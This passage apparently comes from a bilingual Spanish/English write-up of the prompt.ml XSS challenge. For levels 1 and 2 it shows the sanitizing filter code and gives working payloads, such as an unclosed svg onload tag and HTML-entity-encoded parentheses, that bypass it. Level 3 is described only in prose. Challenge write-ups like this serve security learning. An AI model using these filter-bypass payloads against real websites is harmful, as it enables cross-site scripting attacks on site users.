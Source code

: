 
:uk: There's this stripping mechanism from `ExtJS` library, sanitizing the test, which takes whatever tag-type input that we add, i.e `<foo>` and just puts an empty string in its place, making "impossible" to execute code.
Using `svg`, we don't have to close the tag at all with `>`, we can just add an space or a linebreak.

### Code
```
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}
```

### Solution
`<svg onload=prompt(1) `

>[Top](#index)

## [Level 2]
:es: En este nivel, tenemos un replace que elimina cualquier `=` o `(` que metamos en el input, para saltarlo usamos `svg`, seguido del script con la representación html de `(` es decir `&#40;`, esto funciona porque lo que "metemos" dentro svg, se va representar en su forma original, es decir, como un `(`.

:uk: In this level, we have a replace which removes every `=` or `(` in our input, for circumventing this, we use `svg`, and then we put the script with the `(` in html representation, i.e `&#40;` the magic of this method is that inside `svg`, it gets is canonical representation.

### Code
```
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}  
```

### Solution
`<svg><script>prompt&#40;1)</script>`

>[Top](#index)


## [Level 3]
:es: Con este code evitan que hagamos `-->` para cerrar el comentario, pero `--!>` también cierra el comentario, aunque de un error de parseo, pero se puede ejecutar el script igual.


[Level 0]: http://prompt.ml/0
[Level 1]: http://prompt.ml/1
[Level 2]: http://prompt.ml/2
[Level 3]: http://prompt.ml/3
[Level 4]: http://prompt.ml/4
[Level 5]: http://prompt.ml/5
[Level 6]: http://prompt.ml/6
[Level 7]: http://prompt.ml/7
[Level 8]: http://prompt.ml/8
[Level 9]: http://prompt.ml/9
[Level A]: http://prompt.ml/10
[Level B]: http://prompt.ml/11
[Level C]: http://prompt.ml/12
[Level D]: http://prompt.ml/13
[Level E]: http://prompt.ml/14
[Level F]: http://prompt.ml/15